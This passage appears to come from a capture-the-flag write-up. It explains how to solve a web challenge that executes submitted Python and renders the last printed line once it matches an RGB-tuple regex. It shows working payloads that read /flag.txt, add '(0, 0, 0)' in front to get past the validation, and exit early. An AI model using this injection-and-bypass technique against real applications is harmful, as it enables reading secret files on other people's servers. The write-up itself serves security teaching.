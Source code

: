 We need to modify our payload such that the flag is **in the last line printed to standard out**.
This is pretty straightforward; we can just end the program as soon as we print the flag.

```python
# New and improved payload
from pathlib import Path
import sys ### <--
flag = Path("/flag.txt").read_text()
print(flag)
sys.exit() ### <-- Ends the program, ensuring that the only text bound to the `output` variable is the flag 
```

Cool, but we're not quite done yet. We still have to actually pass the input validation step:

```python
def index():
    ...
    res = xec(code)
    valid = re.compile(r"\([0-9]{1,3}, [0-9]{1,3}, [0-9]{1,3}\)") ### <-- A regular expression to validate if `res` contains an rgb tuple
    ...
    if valid.match("".join(res.strip().split("\n")[-1])): ### <-- Our payload must pass this validation to be injected into the template...
        return render_template("index.html", rgb="rgb" + "".join(res.strip().split("\n")[-1]))
    return render_template("index.html", rgb=f"rgb({randint(0, 256)}, {randint(0, 256)}, {randint(0, 256)})") ### <-- ... otherwise we just get a random color, and no flag : (
    ...
```

The `valid.match` call just checks if `res` contains a sequence of `(`, 1-3 digits, a comma, 1-3 digits, another comma, 1-3 digits again, and a closing `)`.
In other words, it just checks that our input contains one or more rgb tuples. For example, `(255, 36, 71)`.

No problem, we can add that:

```python
# Payload prime 😎
from pathlib import Path
import sys
bypass_color_check = "(0, 0, 0)"
flag = Path("/flag.txt").read_text()
print(f"{bypass_color_check} {flag}")
sys.exit()
```

Then we just check for the flag wherever `res` was injected.
`res` is bound to the `rgb` keyword in the `render_template` function:

```python
def index():
    ...
    if valid.match("".join(res.strip().split("\n")[-1])):
        return render_template("index.html", rgb="rgb" + "".join(res.strip().split("\n")[-1]))
        ###                                 ~~~~~~              ~~~~~

    ...
```
